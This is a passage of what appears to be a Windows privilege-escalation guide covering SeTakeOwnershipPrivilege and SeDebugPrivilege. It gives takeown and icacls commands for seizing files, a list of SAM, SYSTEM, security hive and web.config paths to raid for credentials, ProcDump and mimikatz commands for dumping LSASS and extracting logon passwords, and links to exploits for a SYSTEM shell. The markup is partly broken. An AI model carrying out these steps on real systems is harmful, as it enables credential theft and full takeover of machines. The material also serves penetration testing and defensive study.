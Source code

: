 ```
This is similar to to **SeRestorePrivilege**. Its primary function allows a process to **assume ownership of an object**, circumventing the requirement for explicit discretionary access through the provision of WRITE_OWNER access rights. The process involves first securing ownership of the intended registry key for writing purposes, then altering the DACL to enable write operations.

```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
```
### SeDebugPrivilege

This privilege permits the **debug other processes**, including to read and write in the memore. Various strategies for memory injection, capable of evading most antivirus and host intrusion prevention solutions, can be employed with this privilege.

#### Dump memory

You could use [[https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) to **capture the memory of a process**. Specifically, this can apply to the **Local Security Authority Subsystem Service (**[**LSASS**](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)**|ProcDump]]** process, which is responsible for storing user credentials once a user has successfully logged into a system.

You can then load this dump in mimikatz to obtain passwords:

```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
```
#### RCE

If you want to get a `NT SYSTEM` shell you could use:

- [[https://github.com/bruno-1337/SeDebugPrivilege-Exploit|**SeDebugPrivilege-Exploit (C++)**]]
- [[https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC|**SeDebugPrivilegePoC (C#)**]]
- [[https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1|**psgetsys.ps1 (Powershell Script)**]]
